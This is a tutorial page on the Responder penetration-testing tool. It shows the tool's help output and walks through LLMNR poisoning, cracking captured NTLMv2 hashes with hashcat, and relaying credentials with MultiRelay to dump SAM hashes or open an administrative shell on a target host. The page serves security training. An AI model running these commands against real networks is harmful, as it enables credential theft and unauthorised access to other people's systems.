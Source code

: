 ```yaml
---
title: Responder
categories: [Ethical Hacking Tools,Credential Access]
tags: [responder, credential access (TA0006), llmnr, nbt-ns, mdns, aitm, mitm, hashcat, ntlmv2]
comments: true
---
```


# Overview

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder come packaged with Kali Linux by default. [^1]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [Responder.py](https://github.com/lgandx/Responder) | v3.1.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle]() |

# Responder Help Page

```bash
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```
{: .nolineno }

# Instructions

## Using Responder to Perform LLMNR Poisoning

Execute the below command on the attacker machine. Ensure that the `-I` switch is set to interface that is on the same network as the target.

```bash
# Running the listener will wait for a host to make a request
sudo responder -I ens33 -wd
```
{: .nolineno }

Once a set of NTLMv2 credentials have been collection, the password can be attempted to be cracked.

### Cracking NTLMv2 Credentials with HashCat

With the previously obtained NTLMv2 credential hash collected and saved to a text file. It can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```
{: .nolineno }

## Using Responder-Finger and Responder-MultiRelay

Responder comes packaged with additional tools can be used together with Responder to perform other tasks, such as relaying NTLMv2 credentials to gain authenticated access via SMB without the requirement to crack a collected NTLMv2 password hash. The below example shows how to identify systems that don't require SMB signing (a requirement for this method to work) using `Responder-Finger` and setup the `Responder-MultRelay` to gain authenticated access to another host. Local Administrative privileges is however a requirement for the process to work.

This will require three hosts; the attacker, the requesting LLMNR victim, and the target.

1. Configure the Responder configuration file located at `/etc/Responder/Responder.conf` (On Kali Linux) to disable SMB and HTTP sever instances.

    ```conf
    SMB = Off
    HTTP = Off
    ```

2. Start Responder to listen for LLMNR requests. Ensure that the `-I` switch is set to interface that is on the same network as the target.

    ```bash
    sudo responder -I ens33 -wd
    ```
    {: .nolineno }

3. Identify hosts on the target network that have SMB signing disabled, the `-i` switch requires the subnet to search. Once the results are returned, identify any hosts that return `SMB signing: False`. If none are returned, this method will not work and NTLMv2 credentials will need to be cracked instead.

    ```bash
    sudo responder-RunFinger.py -i 10.10.10.1/24
    ```
    {: .nolineno }

4. Start the MultiRelay to relay the NTLMv2 credentials to any target host identified in step 3. In this example, `10.10.10.10` was identified to have SMB signing disabled and is therefore used as the target `-t`. The `-d` switch will instruct the MultiRelay tool to dump the local password hashes. The `-d` switch can be omitted which will instead return an administrative shell to the target machine.

    ```bash
    sudo responder-MultiRelay.py -t 10.10.10.10 -u ALL -d
    ```
    {: .nolineno }

5. If the `-d` switch was omitted in step 4, an interactive shell will be returned allowed the following commands.

   - Dump: Extract the SAM database and print hashes
   - regdump KEY: Dump a HKLM registry key
   - read: Read a file
   - get: Download a file
   - delete: Delete a file
   - Upload: Upload a local file to `\windows\temp\`
   - runas: Run a command as the currently logged on user
   - scan: Performs a scan using SMB for other local targets (use /24 or /26 to limit scope)
   - mimi: Run a remote Mimikatz 64 command
   - mimi32: Run a remote Mimikatz 32 command
   - lcmd: Run a local command 

# Sources
[^1]: [Kali - Responder](https://www.kali.org/tools/responder/)
